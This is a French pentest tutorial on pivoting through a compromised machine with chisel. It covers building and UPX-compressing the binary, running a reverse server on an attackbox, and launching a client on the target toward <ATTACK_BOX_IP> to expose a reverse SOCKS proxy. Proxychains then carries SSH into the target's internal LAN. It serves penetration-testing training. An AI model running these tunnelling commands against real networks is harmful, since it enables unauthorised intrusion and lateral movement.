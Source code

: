 ```yaml
---
public: true # set to true to make the article publishable
---
```

C'est le principe d'utiliser une machine compromise pour relayer notre attaque vers 

## Installation et réduction de la taille

```shell
git clone https://github.com/jpillora/chisel.git
cd chisel
# stripping
go build -ldflags="-s -w"  # réduction de 10 Mo à 6 Mo
# compression
upx brute chisel # réduction de 6 à 1.5Mo
```

### Attackbox 

On commence par lancer un serveur sur notre machine (on veut que le client chisel se connecte à nous car en général les connexions sortantes sont autorisées mais pas le contraire. C'est un peu l'équivalent du côté "reverse" d'un reverse shell)

```
chisel server -p 443 --reverse
```

### Cible

On lance chisel en mode client (pour qu'il se connecte à notre serveur).
Une fois lancé, on souhaite qu'il exécute un serveur socks5.
En principe, un serveur socks s'exécute côté serveur, mais dans notre cas, on souhaite que le serveur socks s'exécute sur notre cible (donc côté client). 
On utilisera pour ce faire le `R` qui signifit "reverse" pour inverser le sens du tunnel.
On aura donc un serveur socks qui s'exécutera sur notre client et qui sera accessible depuis notre serveur sur un port qui, par défaut, sera le 1080.

```
# écoutera sur le port par défaut (1080) du serveur (attaquant) 
chisel client <ATTACK_BOX_IP>:443 R:socks

# si on souhaite modifier le port par défaut :
chisel client <ATTACK_BOX_IP>:443 R:socks:1234

```

## Utilisation

On se connectera en utlisant `proxychain`.
On commence par modifier le fichier de configuration `/etc/proxychains4.conf` et ajouter à la fin la section :

```
[ProxyList]
socks5 127.0.0.1 1080
# on peut éventuellement chainer les proxy socks sur lesquels rebondir en ajouter d'autres lignes à la suite
```

Une fois configuré, il ne reste plus qu'à préfixer nos commandes favorites de `proxychain` :

```
# Connexion SSH via le tunnel socks
proxychains ssh user@<IP_HOTE_ACCESSIBLE_DANS_LE_LAN_DE_NOTRE_CIBLE>
```